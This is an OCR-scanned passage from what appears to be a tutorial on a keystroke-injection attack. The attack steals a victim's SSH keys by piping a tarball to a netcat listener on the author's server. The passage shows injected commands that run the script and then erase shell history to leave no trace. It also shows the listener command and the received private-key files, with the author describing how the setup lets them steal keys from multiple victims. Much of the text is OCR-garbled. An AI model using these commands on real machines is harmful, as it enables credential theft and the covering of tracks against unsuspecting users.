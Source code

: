 After this we will then save the file using nano commands, make it executable then run the program.However, after this, we will need to also clear the local history so there is no trace and then exit the Ubuntu terminal.

CTRL x

y

ENTER

STRING chmod +x \~/sample.sh

ENTER

STRING \~/./sample.sh && history -c && history -w && exit

ENTER

Below is the output from the receiver terminal side (which is on my server)

Welcome to Ubuntu 23.04 (GNU/Linux 5.15.108-1-pve x86_64)

* Documentation: https://help.ubuntu.com

*Management: httpa://landscape.canonical.com

* Support: httpa://ubuntu.com/advantage

Last login: Tue Oct 29 07:32:04 UTC 2024 on tty1

sample@hoat:\~&#36; 1a

sample@host:\~&#36; nc -1 30000 | tar x

aample@host:\~&#36;1a

home

sample@host:\~&#36; cd home

aample@hoat:\~/home&#36; 1a

rahul

sample@host:\~/home&#36; cd rahul/

sample@host:\~/home/rahul&#36; 1s

temp_dir

sample@hoat:\~/home/rahul&#36; cd temp_dir/

sample@host:\~/home/rahul/temp_dir&#36; 1s

authorized_keya id_ed25519 id_ed25519.pub known_hoata known_hoats.old

sample@host:\~/home/rahul/temp_dir&#36;


![](https://web-api.textin.com/ocr_image/external/25ef5a45143c8f40.jpg)

We can see the directory starts off empty with nothing inside and then we run a netcat command.This opens our receiver at port 30000 and receives the tarball and untars it so that all the files are now accessible on the receiver. Also, a question might be why don't I copy the .ssh directly? Well, if I do that, then it will overwrite the .ssh file in the receiver which breaks a lot of my stuff. I've also got it making a new home folder to sort out victims easier so I can steal multiple keys at once. The program automatically terminates after receiving the files so that no other people can access it afterwards and we can have all the SSH keys fully available there.
```

> sample@host: 1s
> sample@host: nc -1 30000 | tar x

sample@hoat:\~&#36; 13

home

```